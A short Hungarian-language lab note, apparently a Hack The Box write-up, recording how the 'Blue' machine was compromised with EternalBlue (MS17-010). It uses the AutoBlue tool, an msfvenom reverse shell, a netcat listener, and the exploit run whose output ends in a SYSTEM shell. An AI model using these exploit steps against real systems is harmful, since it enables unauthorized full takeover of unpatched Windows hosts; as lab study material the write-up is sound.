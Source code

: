 # Eternal Blue
* Source: https://sparshjazz.medium.com/hack-the-box-blue-e9c0b0e4b33d
  * Azt irjak az elejen, hogy a method 2 es method 3 az amit ajanlanak, a (method 1-et nem)
## Ami mukodott
* AutoBlue
  * https://github.com/3ndG4me/AutoBlue-MS17-010
<pre>
<b># letoltjuk a tool-t es generalunk vele reverse shell fajlt</b>
$ git clone https://github.com/3ndG4me/AutoBlue-MS17-010
$ cd AutoBlue-MS17-010/shell
$ ./shell_prep.sh
csinaljon msfvenommal reverse shellt, adjuk meg neki az ip-t es a portot
sima cmd shell legyen (ne meterpreter) es stageless legyen

<b># masik tabon elinditjuk a netcat listenert</b>
$ nc -nvlp 1234
listening on [any] 1234 ...

<b># elinditjuk az exploitot</b>
$ cd ..
$ python eternalblue_exploit7.py 10.10.10.40 shellcode/sc_x64.bin  (valszeg azert eternalblue_exploit7.py mert win7-en toljuk, es win10-nel ...eternalblue_exploit10.py kell majd!!!)
shellcode size: 1232
numGroomConn: 13
Target OS: Windows 7 Professional 7601 Service Pack 1
SMB1 session setup allocate nonpaged pool success
SMB1 session setup allocate nonpaged pool success
good response status: INVALID_PARAMETER
done

<b># masik tabon letrejott a root shell</b>
$ nc -nvlp 1234
listening on [any] 1234 ...
connect to [10.10.16.5] from (UNKNOWN) [10.10.10.40] 49158
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Windows\system32>whoami
whoami
nt authority\system
</pre>
